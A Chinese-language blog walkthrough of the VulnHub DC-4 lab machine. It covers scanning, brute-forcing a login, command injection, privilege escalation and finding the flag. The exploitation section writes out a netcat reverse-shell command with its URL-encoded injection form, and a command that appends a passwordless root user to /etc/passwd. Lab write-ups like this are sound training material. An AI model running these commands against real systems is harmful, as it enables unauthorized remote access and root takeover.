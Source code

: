 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      DC-4 				# 标题 
subtitle:   打靶日记之DC-4靶机 #副标题
date:       2024-07-23 				# 时间
author:     OOTAKEMARU 						# 作者
header-img: img/post-bg-dc.png 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - 打靶日记
    - DC靶机系列
---
```


>## DC-4



### 靶机安装

①官网下载：https://download.vulnhub.com/dc/DC-4.zip；

②解压文件得到 DC-4.ova；

③用vm虚拟机打开该文件，并设置好存储路径；

④将DC-4靶机的网络适配器设置为NAT模式，同kali在同一网段。



### 渗透过程

#### 1、信息收集

##### ①主机扫描

```
arp-scan -l
```

![1.png](https://s2.loli.net/2024/07/23/tUO6245zjwK7REP.png)

##### ②端口扫描

```
nmap -sV -p- 192.168.253.139

-sV 		扫描目标主机端口上运行的软件信息
-p-		 扫描全部端口 0 ~ 65535
```

![2.png](https://s2.loli.net/2024/07/23/Zuc8CYKTD2azXVq.png)

##### ③目录扫描

```
dirsearch -u 192.168.253.139 -e * -x 403 404

-u		接网站地址
-e		后接语言，可选 php，asp，*（表示全部语言）等
-x		表示排除状态代码
```

![3.png](https://s2.loli.net/2024/07/23/dnputC3iY97MJIw.png)



#### 2、漏洞探测

##### 页面信息探测

![4.png](https://s2.loli.net/2024/07/23/8AWewXqpVYgHSuZ.png)



#### 3、漏洞利用

##### ①登录页面暴力破解

![5.png](https://s2.loli.net/2024/07/23/fTBpyXR32bJPSF7.png)

![6.png](https://s2.loli.net/2024/07/23/iTLs8zvF6r7fp5y.png)

![7.png](https://s2.loli.net/2024/07/23/FIqlJ6cybATnD1m.png)

![8.png](https://s2.loli.net/2024/07/23/DhqJtfGZ7NlWYRn.png)

![9.png](https://s2.loli.net/2024/07/23/Kj6liowcrguHILX.png)

![10.png](https://s2.loli.net/2024/07/23/TnZ5trmv3D19AjG.png)

![11.png](https://s2.loli.net/2024/07/23/wps2UPxjkfDSEy7.png)

##### ②任意命令执行

![12.png](https://s2.loli.net/2024/07/23/ky4FcpgWLMdfxlN.png)

![13.png](https://s2.loli.net/2024/07/23/xrIQzoli1dctGuZ.png)

##### ③反弹shell

通过尝试，不能使用echo命令写入一句话木马，尝试反弹shell。
经测试bash反弹不了，只能用nc反弹shell。

参考linux下的几种反弹shell方式：

https://www.freebuf.com/articles/system/178150.html

在kali上监听1234端口: 

```
nc -lvvp 1234
```

![27.png](https://s2.loli.net/2024/07/22/7xr2ZEnAIe5UWFu.png)

```
nc -e /bin/bash 192.168.253.135 1234

#编码后的参数
%6e%63%20%2d%65%20%2f%62%69%6e%2f%62%61%73%68%20%31%39%32%2e%31%36%38%2e%32%35%33%2e%31%33%35%20%31%32%33%34
```

![14.png](https://s2.loli.net/2024/07/23/V6dKnbxS2Nytz34.png)

![15.png](https://s2.loli.net/2024/07/23/tGVQSgUvM27b4qZ.png)

![16.png](https://s2.loli.net/2024/07/23/ipUvjZ8qxJ2uk1A.png)

![17.png](https://s2.loli.net/2024/07/23/QZqH7LvMBXeKDyE.png)

##### ④提权

###### 1）信息检索

![18.png](https://s2.loli.net/2024/07/23/eHxSbulmifoYKwp.png)

![19.png](https://s2.loli.net/2024/07/23/1szNv6AIufPboXQ.png)

###### 2）暴力破解

![20.png](https://s2.loli.net/2024/07/23/OMpdWauR9mJ7Abh.png)

![21.png](https://s2.loli.net/2024/07/23/ohYdxWq1i6SQKfz.png)

![22.png](https://s2.loli.net/2024/07/23/N8a735ZrijnmRvY.png)

###### 3）ssh远程登录

![23.png](https://s2.loli.net/2024/07/23/KkNngQWMDu4CyjV.png)

![24.png](https://s2.loli.net/2024/07/23/HqpwZRQESArnNOi.png)

![25.png](https://s2.loli.net/2024/07/23/GnfEuUsjIw59VlJ.png)

###### 4）提权

![26.png](https://s2.loli.net/2024/07/23/mMNdaD8VHRLXJuW.png)

![27.png](https://s2.loli.net/2024/07/23/4znkDsMhQYwfpWi.png)

构造提权命令，利用管道符配合teehee命令，在passwd文件里写入一个不用密码root权限的用户test：

```
echo "test::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
```

| 如何在Linux系统中快速添加用户？                              |
| ------------------------------------------------------------ |
| 可以通过直接修改 /etc/passwd 实现，/etc/passwd 下的账户信息格式： |
| [注册名]:[口令]:[用户标识号]:[组标识号]:[用户名]:[用户主目录]:[命令解析程序] |
| 口令为 x 即代表存放有密码，为空即代表没有密码，识标号为0代表root权限 |

![28.png](https://s2.loli.net/2024/07/23/2KvxUnsWeVkRSMh.png)



#### 4、寻找flag

```
find / -name *flag*				#查找flag
```

![29.png](https://s2.loli.net/2024/07/23/rINFDbjvnyoOcPx.png)
